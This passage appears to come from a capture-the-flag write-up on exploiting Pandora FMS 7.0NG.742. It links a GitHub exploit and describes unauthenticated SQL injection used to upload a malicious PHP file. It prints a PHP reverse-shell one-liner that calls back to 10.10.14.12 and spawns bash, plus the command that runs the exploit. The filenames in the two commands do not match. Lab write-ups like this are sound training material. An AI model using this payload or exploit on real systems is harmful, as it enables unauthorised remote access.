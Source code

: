 ![](images-pandora/19.png)

**Link:** [Github](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated)

We found a github exploit that was unauthenticated and it used SQL injection to perform a malicious PHP file upload. This method is similar to `--os-shell` option of `sqlmap` command, even in that command the tool tries to upload a malicious file and spawn a shell, here we will do the same by uploading a malicious PHP file.

**Commands:**
- `echo php -r '$sock=fsockopen(10.10.14.12,4343);exec("/bin/bash -i <&3 >&3 2>&3");' > zeroShell.php`
- `./sqlpwn.py -t 127.0.0.1:8081 -f zeroShell.py`

![](images-pandora/20.png)